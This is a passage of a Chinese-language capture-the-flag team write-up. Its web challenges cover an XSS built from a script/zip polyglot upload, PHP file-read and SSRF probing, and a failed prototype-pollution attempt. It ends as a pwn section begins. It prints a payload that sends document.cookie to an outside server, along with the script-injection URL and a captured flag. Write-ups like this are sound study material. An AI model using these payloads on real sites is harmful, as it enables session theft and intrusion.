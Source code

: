 研究了一下`upload.php`，看能不能把script包到zip裡面，就能在server上面include，結果發現直接寫一段script，把zip的binary用`/**/`註解起來，append在script後面還是會被當成合法的zip，同時也是合法的script

```js
window.location.href='https://www.csie.ntu.edu.tw/~b04902004/a.php?flag='+document.cookie
```

後面註解一段合法的zip binary，傳上去拿到zip檔的path

payload:

```?q=https://komodo.zoolab.org:8443/meow.php?q=<script src="upload/b16e62510f0d2b97ea7d369b52a709ddf599f3793f6f0ff66eb9ad6f7e8f55d1"></script>```

傳給admin後回到自己的server拿flag

##### 分工：王佑安
`FLAG{u_r_m3ow_xss_m4ster}`


### King of PHP
`?c`可以把內容用file_put_contens寫進tmp檔

`?f`給檔名會用file_get_contents輸出

`?info`可以看phpinfo，發現幾個重點

1. allow_url_fopen=true
2. 沒設base_opendir

然後看到會擋filename的第一個字元不能是p，很自然的想到可能是要擋phar deserializatoin，可以用`compress.zlib://phar://`bypass，但沒有找到可以觸發RCE的gadget，直到賽後還是沒想到要serialize什麼東西進去

中間有嘗試了幾個其他方向
1. `?f=/proc/net/fib_trie`，發現ip=`172.17.0.13`，戳戳看附近其他ip，發現`?f=http://172.17.0.1`會噴個`It Works!`回來，但掃了一下`172.17.0.1`的其他path，除了index.html找不到其他東西會return
2. `?f=http://172.17.0.13/server-status`可以看到server-status，監控了一陣子其他人的request，看能不能偷到別人的payload，結果發現這個洞後直到比賽結束都沒有人解出來
3. 看了server-status後發現有人在戳`?f=/readflag`，跟著一起戳戳看，發現有個`/readflag.c`，裡面可以看到flag的位置在`/why_the_flag_name_is_so_weird`，但似乎權限不足，php讀不出來
##### 分工：王佑安


### echo
網頁上亂打東西進去，毫無反應就是個echo，

開f12看下source，發現有行註解

```<!-- /echo.zip -->```

把這個path打上去，拿到一包source code

code看起來也就是個簡單的echo server，找不到什麼明顯的洞，大概是要prototype pollution

用source code local架起來測試一下，結果`__proto__`的key都會被過濾掉，發現server沒開json data，urlencode傳進去default的parser是qs，trace他的source code後發現他會用`hasOwnProperty`檢查prototype pollution

沒辦法傳prototype pollution，只好trace看看express跟ejs的source code，但也沒有發現可以RCE的地方，後來就放棄了。
##### 分工：王佑安


## Pwn
### Impossible
這題因為溝通失誤（當時凌晨三、四點了，我們都以為其他人已經睡了），所以有兩個人分別解了這題，以下分別列兩人的 write-up：

#### 林廷衛的版本

```